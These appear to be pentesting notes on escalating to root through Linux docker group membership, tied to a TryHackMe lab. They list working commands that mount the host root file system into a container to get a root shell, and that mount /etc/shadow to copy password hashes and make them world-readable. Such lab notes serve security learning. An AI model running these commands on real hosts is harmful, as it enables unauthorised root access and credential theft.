




Docker group
Placing a user in the docker group is essentially equivalent to root level access to the file system without requiring a password.
Members of the docker group can spawn new docker containers. One example would be running the command
0. Automated tool (
linenum.sh)
If we are in a docker, we should see something like that
1. Manually: Check if we are in the docker group or root. In this case, we can run some interesting commands!
Members of the docker group can spawn new docker containers
target@debian:~$ id
target@debian:~$ groups
2. Use
https://gtfobins.github.io/gtfobins/docker/ 1) Show all the containers both stopped and running
 2) Run the command of gtfobins and change the value of [Container-Image] with the Image on your docker
This command create a new Docker instance with the / directory on the host file system mounted as a volume.
target@debian:~$ docker run -v /:/mnt --rm -it [Container-Name-Image] chroot /mnt sh
docker run → run a command in a new container
-v, --volume-list [folderToMount]:[whereMount] → bind mount a volume
--rm → automatically remove the container once it exit
-i, --interactive → keep STDIN open also if not attached
-t , --tty → allocate a pseudo tty
Note: In our case we need to change the value in the command of gtfobins from “alpine” to "bash" if we are inside a bash shell
 Now we are root!
Docker Privilege Escalation (Technique 2)
target@debian:~$ docker images
target@debian:~$ docker run -tid bash #to run a new container, take note of the ID
target@debian:~$ docker ps
target@debian:~$ docker run -v /etc/shadow:/docker/hashedpasswords -d [imageName]
target@debian:~$ docker exec -ti {ID} bash
bash# whoami
bash# cat /docker/hashedpasswords > /docker/test.txt
bash# chmod 777 /docker/test.txt
bash# cat /docker/test.txt
Bibliography:
Vulnerable VM:
https://tryhackme.com/room/ultratech1 and walkthrough:
https://hacker.observer/ultratech-tryhackme-walkthrough/